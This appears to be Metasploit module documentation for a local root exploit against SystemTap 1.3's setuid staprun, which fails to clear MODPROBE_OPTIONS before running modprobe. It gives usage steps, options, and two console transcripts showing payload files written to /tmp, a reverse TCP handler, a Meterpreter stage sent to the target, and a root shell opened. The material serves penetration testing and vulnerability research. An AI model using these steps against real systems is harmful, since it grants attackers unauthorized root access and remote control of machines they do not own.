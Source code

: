 ## Description

  This module attempts to gain root privileges by exploiting a
  vulnerability in the `staprun` executable included with SystemTap
  version 1.3.

  The `staprun` executable does not clear environment variables prior to
  executing `modprobe`, allowing an arbitrary configuration file to be
  specified in the `MODPROBE_OPTIONS` environment variable, resulting
  in arbitrary command execution with root privileges.


## Vulnerable Application

  This module has been tested successfully on:

  * systemtap 1.2-1.fc13-i686 on Fedora 13 (i686)
  * systemtap 1.1-3.el5 on RHEL 5.5 (x64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/systemtap_modprobe_options_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **STAPRUN_PATH**

  Path to staprun executable (default: `/usr/bin/staprun`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### Red Hat Enterprise Linux 5.5 (x64)

  ```
  msf5 > use exploit/linux/local/systemtap_modprobe_options_priv_esc 
  msf5 exploit(linux/local/systemtap_modprobe_options_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/systemtap_modprobe_options_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/systemtap_modprobe_options_priv_esc) > run
  
  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] /usr/bin/staprun is executable
  [+] /usr/bin/staprun is setuid
  [*] Writing '/tmp/.rX9IoM53YEb92' (207 bytes) ...
  [*] Writing '/tmp/.rX9IoM53YEb92.conf' (23 bytes) ...
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.202
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.202:52074) at 2019-04-18 12:50:56 -0400
  [+] Deleted /tmp/.rX9IoM53YEb92
  [+] Deleted /tmp/.rX9IoM53YEb92.conf
  ERROR: Unable to canonicalize path "/lib/modules/2.6.18-194.el5/systemtap/As5A2hFpvQ2L.ko": No such file or directory
  Retrying, after attempted removal of module As5A2hFpvQ2L (rc -1)
  ERROR: Unable to canonicalize path "/lib/modules/2.6.18-194.el5/systemtap/As5A2hFpvQ2L.ko": No such file or directory
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo 
  Computer     : localhost.localdomain
  OS           : Red Hat Enterprise Linux 5 (Linux 2.6.18-194.el5)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

### Fedora 13 (x86)

  ```
  msf5 > use exploit/linux/local/systemtap_modprobe_options_priv_esc 
  msf5 exploit(linux/local/systemtap_modprobe_options_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/systemtap_modprobe_options_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/systemtap_modprobe_options_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] /usr/bin/staprun is executable
  [+] /usr/bin/staprun is setuid
  [*] Writing '/tmp/.otCyN6cAa7aUo0v' (207 bytes) ...
  [*] Writing '/tmp/.otCyN6cAa7aUo0v.conf' (23 bytes) ...
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.138
  ERROR: Unable to canonicalize path "/lib/modules/2.6.33.3-85.fc13.i686.PAE/systemtap/l0rDp93O8f.ko": No such file or directory
  Retrying, after attempted removal of module l0rDp93O8f (rc -1)
  ERROR: Unable to canonicalize path "/lib/modules/2.6.33.3-85.fc13.i686.PAE/systemtap/l0rDp93O8f.ko": No such file or directory
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.138:33541) at 2019-04-19 07:26:46 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : fedora13.localdomain
  OS           : Fedora 13 (Linux 2.6.33.3-85.fc13.i686.PAE)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```

